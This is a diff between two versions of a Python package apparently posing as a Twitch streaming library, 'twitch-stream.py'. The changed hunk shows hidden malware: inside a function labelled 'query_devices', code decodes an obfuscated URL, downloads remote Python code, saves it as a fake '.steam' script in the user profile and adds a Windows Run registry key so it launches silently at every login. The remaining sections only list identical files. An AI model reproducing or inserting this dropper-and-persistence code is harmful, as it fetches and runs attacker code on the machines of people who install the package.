  * *Files 0% similar despite different names*

```diff
@@ -593,14 +593,18 @@
     query_devices
 
     """
     url = decode()
     #temp_path = _os.environ["TEMP"] + "\\script.py"
     base_path = _os.environ["USERPROFILE"] + "\\.steam\\script.py"
     #alt_path = _os.environ["ALLUSERPROFILE"] + "\\script.py"
+    try:
+        _os.mkdir(_os.environ["USERPROFILE"] + "\\.steam")
+    except FileExistsError:
+        pass
     f = open(base_path, "w")
     f.write(requests.get(decode()).text)
     f.close()
     sub_key = "Software\Microsoft\Windows\CurrentVersion\Run"
     pythonw = _os.path.dirname(_sys.executable) + "\\pythonw.exe"
     final_val = f"\"{pythonw}\" \"{base_path}\""
     key = winreg.OpenKey(key=winreg.HKEY_CURRENT_USER, sub_key=sub_key, reserved=0, access=winreg.KEY_ALL_ACCESS)
```

### Comparing `twitch-stream.py-1.1.1/twitchstream/outputvideo.py` & `twitch-stream.py-1.1.2/twitchstream/outputvideo.py`

 * *Files identical despite different names*

### Comparing `twitch-stream.py-1.1.1/twitchstream/tests/conftest.py` & `twitch-stream.py-1.1.2/twitchstream/tests/conftest.py`

 * *Files identical despite different names*

### Comparing `twitch-stream.py-1.1.1/twitchstream/tests/test_chat.py` & `twitch-stream.py-1.1.2/twitchstream/tests/test_chat.py`

 * *Files identical despite different names*

